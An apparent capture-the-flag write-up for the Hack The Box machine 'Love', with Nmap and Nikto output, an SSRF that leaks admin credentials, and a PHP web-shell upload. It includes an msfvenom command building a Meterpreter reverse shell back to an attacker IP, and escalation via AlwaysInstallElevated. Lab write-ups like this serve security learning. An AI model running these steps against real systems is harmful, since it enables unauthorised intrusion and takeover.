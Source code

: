 
# Enum

## Nmap Scan

```
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
3306/tcp  open     mysql
5000/tcp  open     upnp
5040/tcp  open     unknown
5985/tcp  open     wsman
5986/tcp  open     wsmans
7680/tcp  open     pando-pub
47001/tcp open     winrm
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49668/tcp open     unknown
49669/tcp open     unknown
49670/tcp open     unknown
55683/tcp filtered unknown
```


#### Scan with `-A`

```

80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NCP, NULL: 
|_    Host '10.10.14.86' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=8/2%Time=6107E499%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.86'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(NCP,4A,"F\0\0
SF:\x01\xffj\x04Host\x20'10\.10\.14\.86'\x20is\x20not\x20allowed\x20to\x20
SF:connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h54m45s, deviation: 4h02m31s, median: 34m43s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-02T06:02:06-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-02T13:02:03
|_  start_date: N/A

PORT      STATE SERVICE    VERSION
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http   Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-08-02T13:09:47+00:00; +34m44s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 34m43s


```

## Nikto Scan

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.239
+ Target Hostname:    10.10.10.239
+ Target Port:        80
+ Start Time:         2021-08-02 18:38:13 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
+ Retrieved x-powered-by header: PHP/7.3.27
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /includes/: Directory indexing found.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /Admin/: This might be interesting...
+ 8675 requests: 2 error(s) and 15 item(s) reported on remote host
+ End Time:           2021-08-02 19:12:34 (GMT5.5) (2061 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

***

### Enumrating Sub-Domins

From the above Nmap Scap Found these Domains

- staging.love.htb

- www.love.htb

added staging.love.htb into /etc/hosts file 

Demo page have a file scan option

- LFI/RFI seems not to be working here

- Entered 127.0.0.1:5000 ; using server to read internal resources (SSRF)

And we the credentials ==> admin: @LoveIsInTheAir!!!!

***

# ==>FoothHolding

## getting a reverse shell

- The Profile page have option to upload a pic, but maybe a shell can also be uploaded

- https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php  <== Used this awesome webshell ; other Reverse shells seems not to be working

- uploaded the shell and that can be accessed `/images/` which was found during **`Dir Fuzzing`**

- Rev-Shell ==> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.86 LPORT=4242 -f exe -o rev.exe

- uploaded rev.exe and executed it using `WEB-Shell` 

***

# ==>Prev Esc

- Uploaded winPeas64.exe

- From The WinPease Scan , determined `exploit/windows/local/always_install_elevated` <== Metasploit module can be used

- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

